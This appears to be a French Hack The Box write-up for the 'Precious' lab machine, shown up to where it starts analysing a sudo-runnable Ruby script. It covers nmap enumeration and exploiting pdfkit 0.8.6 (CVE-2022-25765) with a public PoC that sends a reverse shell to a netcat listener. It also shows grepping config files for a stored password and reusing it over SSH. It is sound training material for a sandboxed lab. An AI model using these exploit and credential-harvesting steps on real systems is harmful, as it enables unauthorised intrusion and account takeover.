





---

# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "Precious — HTB Easy Writeup & Walkthrough"
linkTitle: "Precious"
slug: "precious"
date: 2026-07-02T09:15:00+02:00
#lastmod: 2026-06-05T15:55:24+02:00
draft: false

# --- PaperMod / navigation ---
type: "writeups"
summary: "Precious (HTB Easy) : exploitation de pdfkit 0.8.6, récupération d’identifiants locaux et escalade via YAML.load en Ruby."
description: "Writeup de Precious (HTB Easy) : exploitation pas à pas de pdfkit 0.8.6, récupération d’identifiants et escalade sudo via YAML.load."
tags: ["Hack The Box","HTB Easy","linux-privesc","pdfkit","CVE-2022-25765","command-injection","ruby","yaml-load","sudo","suid","credential-reuse"]
categories: ["Mes writeups"]

# Ajouter ensuite uniquement des tags techniques réellement utilisés dans le writeup,
# par exemple :
# - prise de pied : "Web", "SSH", "FTP"
# - faille : "XSS", "LFI", "RCE", "Path Traversal", "Shellshock"
# - techno / produit : "Grafana", "Chamilo", "CMS Made Simple", "js2py"
# - CVE : "CVE-2021-43798"
# - pivot : "Credential Reuse"
# - privesc spécifique : "sudo", "Docker", "Cron", "ACL", "PATH Hijacking", "tmux", "npbackup", "pspy64"

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "Machine Precious HTB Easy exploitée via pdfkit 0.8.6 puis escalade de privilèges avec YAML.load en Ruby"
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Precious"
  difficulty: "Easy"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","pdfkit","CVE-2022-25765","Command Injection","SSH","Ruby","YAML.load","sudo","SUID","Privilege Escalation"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Precious> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

Dans ce writeup, tu vas résoudre **Precious sur Hack The Box**, une machine Linux de difficulté Easy centrée sur une application web de génération de PDF.

La prise de pied repose sur une fonctionnalité exposée par l’application : la conversion d’une page web en PDF. En analysant le fichier généré, tu identifies l’utilisation de `pdfkit 0.8.6`, une version vulnérable permettant une injection de commande. Cette faille permet d’obtenir un premier accès sur la machine avec l’utilisateur `ruby`.

La suite de l’exploitation consiste à fouiller l’environnement local de cet utilisateur afin de retrouver des identifiants stockés dans la configuration Bundler. Ces identifiants permettent ensuite une connexion SSH avec l’utilisateur `henry`.

L’escalade de privilèges s’appuie sur un droit `sudo` mal maîtrisé : `henry` peut exécuter en root un script Ruby qui charge un fichier `dependencies.yml` avec `YAML.load`. En contrôlant ce fichier, tu peux provoquer l’exécution d’une commande système, poser le bit SUID sur `/bin/bash`, puis obtenir un shell root avec `bash -p`.

Ce walkthrough Precious.htb met donc l’accent sur une chaîne d’exploitation classique mais très pédagogique : identification d’une technologie vulnérable, injection de commande, récupération d’identifiants locaux, puis abus d’une désérialisation Ruby via YAML pour terminer l’escalade de privilèges.

---

## Énumération



### Scan initial

Le scan TCP complet (`scans_nmap/full_tcp_scan.txt`) montre les ports ouverts suivants :

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt precious.htb
Nmap scan report for precious.htb (10.129.x.x)
Host is up (0.0097s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 8.16 seconds

```

### Scan FTP/SMB (si services détectés)

Après le scan initial, le script enchaîne automatiquement avec une phase d’énumération ciblée **FTP/SMB** si l’un des services suivants est détecté :

- **FTP** sur le port **21**
- **SMB** sur le port **139** et/ou **445**

Les résultats sont enregistrés dans (`scans_nmap/enum_ftp_smb_scan.txt`) :

```bash
# mon-nmap — ENUM FTP / SMB
# Target : precious.htb
# Date   : [date]

Aucun service FTP (21) ni SMB (139/445) détecté.
Ports ouverts détectés : 22,80
```


### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Ce scan fournit des informations détaillées sur les services et versions détectés.

Les résultats sont enregistrés dans (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour precious.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,80" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "precious.htb"

# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,80 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt precious.htb
Nmap scan report for precious.htb (10.129.x.x)
Host is up (0.0088s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   56.95 ms 10.10.x.1
2   7.24 ms  precious.htb (10.129.x.x)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 12.02 seconds

```


### Scan ciblé CMS

Le script exécute ensuite un scan ciblé CMS (scans_nmap/cms_vuln_scan.txt).

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,80 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt precious.htb
Nmap scan report for precious.htb (10.129.x.x)
Host is up (0.014s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1
|     /stylesheets/
|       css: 1
|   Longest directory structure:
|     Depth: 1
|     Dir: /stylesheets/
|   Total files found (by extension):
|_    Other: 1; css: 1
|_http-devframework: RoR detected. Found 'passenger' in x-powered-by header sent by the server.
|_http-title: Convert Web Page to PDF
| http-headers: 
|   Content-Type: text/html;charset=utf-8
|   Content-Length: 483
|   Connection: close
|   Status: 200 OK
|   X-XSS-Protection: 1; mode=block
|   X-Content-Type-Options: nosniff
|   X-Frame-Options: SAMEORIGIN
|   Date: Fri, 05 Jun 2026 14:02:57 GMT
|   X-Powered-By: Phusion Passenger(R) 6.0.15
|   Server: nginx/1.18.0 + Phusion Passenger(R) 6.0.15
|   X-Runtime: Ruby
|   
|_  (Request type: HEAD)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 37.67 seconds
```


### Scan UDP rapide

Le script lance également un scan UDP rapide afin de détecter d’éventuels services supplémentaires (`scans_nmap/udp_vuln_scan.txt`).

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt precious.htb
Nmap scan report for precious.htb (10.129.x.x)
Host is up (0.013s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   closed        netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   closed        snmptrap
445/udp   open|filtered microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   open|filtered route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  open|filtered nat-t-ike
49152/udp open|filtered unknown

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 9.62 seconds
```


### Énumération des chemins web
Pour la découverte des chemins web, tu peux utiliser le script dédié 

```bash
mon-recoweb precious.htb

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier `RESULTS_SUMMARY.txt` regroupe les chemins découverts, ce qui évite de devoir parcourir l’ensemble des logs générés.

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.3

Cible        : precious.htb
Périmètre    : /
Date début   : [date]

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://precious.htb/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/precious.htb/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://precious.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/precious.htb/ffuf_dirs.json 2>&1 | tee scans_recoweb/precious.htb/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://precious.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/precious.htb/ffuf_files.json 2>&1 | tee scans_recoweb/precious.htb/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://precious.htb/. (CODE:200|SIZE:483)

=== Détails par outil ===

[DIRB]

[FFUF — DIRECTORIES]

[FFUF — FILES]
http://precious.htb/. (CODE:200|SIZE:483)

```


### Recherche de vhosts

Enfin, tu peux tester la présence de vhosts à l’aide du script .

```bash
=== mon-subdomains precious.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.1
Date         : [date]
Domaine      : precious.htb
IP           : 10.129.x.x
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

--- Détails par port ---
Port 80 (http)
  Baseline#1: code=302 size=145 words=9 (Host=5w68t85kgc.precious.htb)
  Baseline#2: code=302 size=145 words=9 (Host=960v0izgke.precious.htb)
  Baseline#3: code=302 size=145 words=9 (Host=2erg4e23nd.precious.htb)
  After-redirect#1: code=200 size=483 words=42
  After-redirect#2: code=200 size=483 words=42
  After-redirect#3: code=200 size=483 words=42
  VHOST (0)
    - (aucun)


=== mon-subdomains precious.htb END ===
```

Si aucun vhost distinct n’est identifié, ce fichier confirme l’absence de résultats supplémentaires.

## Prise pied

### Vérification du fonctionnement de la génération PDF

La page d’accueil expose une fonctionnalité simple : convertir une page web en PDF.



Avant de chercher une vulnérabilité, tu vérifies d’abord le comportement normal de l’application.

L’idée est de fournir à l’application une URL contrôlée depuis Kali, afin de confirmer qu’elle vient bien récupérer le contenu distant avant de générer le PDF.

Sur Kali, tu crées un fichier de test très simple :

```bash
echo 'test de connexion vers kali' > test.txt
```

Tu démarres ensuite un serveur HTTP local dans le répertoire courant :

```bash
python3 -m http.server 8000
```

Dans le formulaire de l’application, tu indiques l’URL du fichier hébergé sur Kali :

```text
http://10.10.x.x:8000/test.txt
```



L’application génère un PDF contenant le texte récupéré depuis Kali.



Cette étape confirme deux choses importantes :

- la cible peut joindre ton serveur HTTP Kali ;
- l’application récupère bien le contenu fourni dans le champ URL avant de le convertir en PDF.

### Identification de pdfkit 0.8.6

Le PDF généré est enregistré localement dans le dossier `Downloads` de Kali.
Tu peux alors inspecter ses métadonnées avec `exiftool` :

```bash
cd ~/Downloads
exiftool q4o0kbdsmmbmbrhhmp7ed6jts2w1oz0z.pdf
```

Résultat :

```text
ExifTool Version Number         : 13.55
File Name                       : q4o0kbdsmmbmbrhhmp7ed6jts2w1oz0z.pdf
Directory                       : .
File Size                       : 11 kB
File Modification Date/Time     : 2026:06:09 11:07:51+02:00
File Access Date/Time           : 2026:06:09 11:07:51+02:00
File Inode Change Date/Time     : 2026:06:09 11:07:51+02:00
File Permissions                : -rw-rw-r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

La ligne importante est la suivante :

```text
Creator                         : Generated by pdfkit v0.8.6
```

Elle indique que l’application utilise `pdfkit v0.8.6` pour générer les PDF.

Cette information donne une piste concrète pour la suite : tu peux maintenant vérifier si `pdfkit 0.8.6` est associé à une vulnérabilité connue.


### Recherche d’une vulnérabilité connue dans pdfkit

La version `pdfkit v0.8.6` étant maintenant identifiée, tu peux rechercher une vulnérabilité correspondant à cette version.

Tu effectues une recherche Google avec les termes suivants :

```txt
pdfkit 0.8.6 exploit github poc -precious
```

Le filtre `-precious` exclut les résultats contenant le nom de la machine, afin d’éviter les writeups, walkthroughs ou solutions déjà publiés.



La recherche fait ressortir **CVE-2022-25765**, une vulnérabilité de type **command injection** affectant `pdfkit`.

Parmi les dépôts identifiés, celui-ci fournit un PoC exploitable pour tester la vulnérabilité dans le contexte du CTF :

```url
https://github.com/nikn0laty/PDFkit-CMD-Injection-CVE-2022-25765.git
```

### Exploitation de CVE-2022-25765

Tu récupères ensuite le dépôt :

```bash
git clone https://github.com/nikn0laty/PDFkit-CMD-Injection-CVE-2022-25765.git
cd PDFkit-CMD-Injection-CVE-2022-25765
```

Avant d’exécuter l’exploit, tu ouvres un listener sur Kali :

```bash
rlwrap nc -lvnp 4444
```

Dans un second terminal, tu lances l’exploit en indiquant l’URL de la cible, ton IP VPN et le port d’écoute :

```bash
python3 CVE-2022-25765.py -t http://precious.htb -a 10.10.x.x -p 4444
```

Réponse :

```bash
[*] Input target address is http://precious.htb
[*] Input address for reverse connect is 10.10.x.x
[*] Input port is 4444
[!] Run the shell... Press Ctrl+C after successful connection
```


Côté listener, tu reçois une connexion depuis la cible :

```bash
connect to [10.10.x.x] from (UNKNOWN) [10.129.x.x] 55376
bash: cannot set terminal process group (678): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$
```

La prise de pied est réussie : tu obtiens un shell sur la machine en tant que l’utilisateur `ruby`.

### Stabilisation du shell ruby

Le shell obtenu est fonctionnel, mais il reste limité : pas de contrôle des jobs, comportement parfois instable avec certaines commandes interactives, et confort d’utilisation réduit.

Tu peux alors le stabiliser avec la méthode habituelle décrite dans la recette dédiée 

Depuis le shell `ruby`, tu lances d’abord un pseudo-terminal Python :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Tu mets ensuite le shell en arrière-plan avec `Ctrl+Z`, puis tu ajustes le terminal côté Kali :

```bash
stty raw -echo; fg
```

Après le retour dans le shell distant, tu réinitialises l’affichage :

```bash
reset
```

Tu peux ensuite définir un type de terminal plus confortable :

```bash
export TERM=xterm
```

Le prompt reste celui de l’utilisateur `ruby`, mais le shell est maintenant plus agréable à utiliser pour la suite de l’exploration locale :

```bash
ruby@precious:/var/www/pdfapp$
```

### Exploration de l’environnement de l’utilisateur ruby

Après l’exploitation de `pdfkit`, tu obtiens un shell sur la cible en tant que l’utilisateur `ruby`. Ce premier accès confirme la prise de pied, mais il faut maintenant comprendre l’environnement local avant de chercher une progression vers un autre compte ou une escalade de privilèges.

Tu commences par vérifier l’utilisateur courant, les groupes associés, le nom de la machine et le répertoire dans lequel le shell arrive :

```bash
whoami
id
hostname
pwd
```

```bash
ruby
uid=1001(ruby) gid=1001(ruby) groups=1001(ruby)
precious
/var/www/pdfapp
```

Le shell s’exécute dans le répertoire de l’application web :

```text
/var/www/pdfapp
```

Ensuite, tu regardes les répertoires personnels présents sur la machine :

```bash
ls -la /home
```

Cette commande révèle deux comptes locaux :

```text
henry
ruby
```

Le compte `ruby` correspond à l’utilisateur obtenu grâce à l’exploitation web.
Le compte `henry` est donc un autre utilisateur local potentiellement intéressant.

Tu inspectes alors le répertoire personnel de `henry` pour voir ce qu’il contient et quelles permissions sont appliquées :

```bash
ls -la /home/henry
```

Résultat :

```text
drwxr-xr-x 2 henry henry 4096 Oct 26  2022 .
drwxr-xr-x 4 root  root  4096 Oct 26  2022 ..
lrwxrwxrwx 1 root  root     9 Sep 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 henry henry  220 Sep 26  2022 .bash_logout
-rw-r--r-- 1 henry henry 3526 Sep 26  2022 .bashrc
-rw-r--r-- 1 henry henry  807 Sep 26  2022 .profile
-rw-r----- 1 root  henry   33 Jun  9 03:44 user.txt
```

Le fichier `user.txt` est bien présent dans `/home/henry`, mais il n’est pas lisible directement par l’utilisateur `ruby`. Il appartient à `root` et au groupe `henry`, avec des permissions limitées.

À ce stade, l’objectif devient plus clair : trouver une information permettant de passer de `ruby` à `henry`. 

Comme l’accès actuel est lié à une application Ruby, les fichiers de configuration, les répertoires personnels, l’application web, `/opt` et les sauvegardes sont de bons emplacements à examiner.

### Recherche d’informations liées à l’utilisateur henry

Comme `henry` est l’utilisateur à atteindre, tu recherches des références à ce nom dans les fichiers accessibles à `ruby`.

Tu limites d’abord la recherche aux emplacements les plus intéressants : les homes utilisateurs, l’application web, `/opt` et les sauvegardes.

```bash
find /home /var/www /opt /var/backups -type f -readable 2>/dev/null -exec grep -Hni "henry" {} \;
```

Résultat :

```text
/home/ruby/.bundle/config:2:BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Le fichier contient des identifiants associés à l’utilisateur `henry`.

```txt
henry:Q3c1AqGHtoI0aXAYFH
```

Tu peux donc tenter une connexion SSH avec ce mot de passe.

### Connexion SSH avec l’utilisateur henry

Depuis Kali, tu testes les identifiants trouvés :

```bash
ssh henry@precious.htb
```

Mot de passe :

```text
Q3c1AqGHtoI0aXAYFH
```

Après authentification, tu vérifies l’utilisateur courant :

```bash
whoami
id
```

Résultat :

```text
henry
uid=1000(henry) gid=1000(henry) groups=1000(henry)
```

### user.txt

Tu peux maintenant lire le flag utilisateur :

```bash
cat user.txt
b66cxxxxxxxxxxxxxxxxxxxxxxxx1c0c
```

La lecture de `user.txt` confirme la fin de la phase Prise pied : tu disposes maintenant d’un accès utilisateur valide sur la cible en tant que `henry`. 

Tu peux maintenant passer à l’escalade de privilèges.


## Escalade de privilèges



### Vérification des droits sudo

Depuis la session SSH de l’utilisateur `henry`, tu commences par vérifier les commandes exécutables avec `sudo` :

```bash
sudo -l
```

Résultat :

```bash
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

L’utilisateur `henry` peut donc exécuter le script Ruby `/opt/update_dependencies.rb` en tant que `root`, sans mot de passe :

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

Ce script devient le point d’entrée de l’escalade de privilèges.

### Analyse du script Ruby

Tu lis ensuite le contenu du script :

